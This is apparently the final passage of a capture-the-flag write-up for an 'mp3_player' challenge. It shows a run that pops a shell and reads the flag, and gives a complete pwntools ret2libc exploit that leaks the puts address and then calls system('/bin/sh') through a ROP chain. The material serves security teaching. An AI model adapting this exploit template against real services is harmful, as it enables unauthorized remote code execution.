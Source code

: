 By running the script with the correct libc-version of the server we get the shell, and have used an alternative (and harder) way to get the flag than the intended method described at first in this writeup.
```bash
$ python3 exploit.py
[+] Opening connection to host on port 8006: Done
[*] Loaded 14 cached gadgets for './mp3_player'
[*] Puts address found: 0x7f53a2238420
[*] Loaded 196 cached gadgets for './libc.so'
[*] Switching to interactive mode

Could not play the requested song
$ ls
flag.txt
mp3_player
$ id
uid=1000(mp3) gid=1000(mp3) groups=1000(mp3)
```
{: .nolineno }

## Shell script
```python
from pwn import *

context.arch = "amd64"
elf = ELF("./mp3_player", checksec=False)
libc = ELF("./libc.so", checksec=False) # Libc used by mp3_player

if args.LOCAL:
    p = elf.process()
else:
    host = args.HOST or "host"
    port = int(args.PORT or 8006)
    p = remote(host, port)

offset = 40

# First ROP-chain to leak puts address in libc
rop = ROP(elf)
rop.raw(b"\x90"*offset)
rop.puts(elf.got["puts"])
rop.call(elf.symbols["main"])

# Send payload
p.recvuntil(b"ABBA")
p.sendline(rop.chain())

# Parse the leaked address, and set libc base address
p.recvuntil(b"song\n")
puts_leak = u64(p.recvline().rstrip().ljust(8, b"\x00"))
log.info(f"Puts address found: {hex(puts_leak)}")
libc.address = puts_leak - libc.symbols["puts"]

# Second ROP-chain to get shell on the server
ret_addr = rop.find_gadget(["ret"])[0]
rop = ROP(libc)
rop.raw(b"\x90"*offset)
rop.raw(p64(ret_addr))
rop.system(next(libc.search(b"/bin/sh")))

# Send payload
p.recvuntil(b"ABBA")
p.sendline(rop.chain())
```
